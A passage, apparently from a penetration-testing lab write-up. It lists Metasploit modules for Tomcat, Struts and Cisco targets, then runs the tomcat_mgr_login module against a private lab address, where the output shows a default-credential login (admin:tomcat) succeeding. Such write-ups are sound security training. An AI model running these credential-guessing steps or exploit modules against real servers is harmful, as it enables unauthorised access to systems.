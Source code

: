 ```
   1   auxiliary/admin/http/tomcat_administration                                    normal     No     Tomcat Administration Tool Default Access
   2   auxiliary/admin/http/tomcat_utf8_traversal                   2009-01-09       normal     No     Tomcat UTF-8 Directory Traversal Vulnerability
   3   auxiliary/admin/http/trendmicro_dlp_traversal                2009-01-09       normal     No     TrendMicro Data Loss Prevention 5.5 Directory Traversal
   4   auxiliary/dos/http/apache_commons_fileupload_dos             2014-02-06       normal     No     Apache Commons FileUpload and Apache Tomcat DoS
   5   auxiliary/dos/http/apache_tomcat_transfer_encoding           2010-07-09       normal     No     Apache Tomcat Transfer-Encoding Information Disclosure and DoS
   6   auxiliary/dos/http/hashcollision_dos                         2011-12-28       normal     No     Hashtable Collisions
   7   auxiliary/scanner/http/tomcat_enum                                            normal     No     Apache Tomcat User Enumeration
   8   auxiliary/scanner/http/tomcat_mgr_login                                       normal     No     Tomcat Application Manager Login Utility
   9   exploit/linux/http/cisco_prime_inf_rce                       2018-10-04       excellent  Yes    Cisco Prime Infrastructure Unauthenticated Remote Code Execution
   10  exploit/linux/http/cpi_tararchive_upload                     2019-05-15       excellent  Yes    Cisco Prime Infrastructure Health Monitor TarArchive Directory Traversal Vulnerability
   11  exploit/multi/http/cisco_dcnm_upload_2019                    2019-06-26       excellent  Yes    Cisco Data Center Network Manager Unauthenticated Remote Code Execution
   12  exploit/multi/http/struts2_namespace_ognl                    2018-08-22       excellent  Yes    Apache Struts 2 Namespace Redirect OGNL Injection
   13  exploit/multi/http/struts_code_exec_classloader              2014-03-06       manual     No     Apache Struts ClassLoader Manipulation Remote Code Execution
   14  exploit/multi/http/struts_dev_mode                           2012-01-06       excellent  Yes    Apache Struts 2 Developer Mode OGNL Execution
   15  exploit/multi/http/tomcat_jsp_upload_bypass                  2017-10-03       excellent  Yes    Tomcat RCE via JSP Upload Bypass
   16  exploit/multi/http/tomcat_mgr_deploy                         2009-11-09       excellent  Yes    Apache Tomcat Manager Application Deployer Authenticated Code Execution
   17  exploit/multi/http/tomcat_mgr_upload                         2009-11-09       excellent  Yes    Apache Tomcat Manager Authenticated Upload Code Execution
   18  exploit/multi/http/zenworks_configuration_management_upload  2015-04-07       excellent  Yes    Novell ZENworks Configuration Management Arbitrary File Upload
   19  exploit/windows/http/cayin_xpost_sql_rce                     2020-06-04       excellent  Yes    Cayin xPost wayfinder_seqid SQLi to RCE
   20  exploit/windows/http/tomcat_cgi_cmdlineargs                  2019-04-10       excellent  Yes    Apache Tomcat CGIServlet enableCmdLineArguments Vulnerability
   21  post/multi/gather/tomcat_gather                                               normal     No     Gather Tomcat Credentials
   22  post/windows/gather/enum_tomcat                                               normal     No     Windows Gather Apache Tomcat Enumeration
```

I use module 8 to attempt our login to the Tomcat Application Manager. Simply select the module using command `use 8` and configured it properly. After that, I ran the module using command `exploit`.

```
msf6 > use 8
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RHOST 192.168.240.80
RHOST => 192.168.240.80
msf6 auxiliary(scanner/http/tomcat_mgr_login) > run

[-] 192.168.240.80:8080 - LOGIN FAILED: admin:admin (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: admin:manager (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: admin:role1 (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: admin:root (Incorrect)
[+] 192.168.240.80:8080 - Login Successful: admin:tomcat
[-] 192.168.240.80:8080 - LOGIN FAILED: manager:admin (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: manager:manager (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: manager:role1 (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: manager:root (Incorrect)
```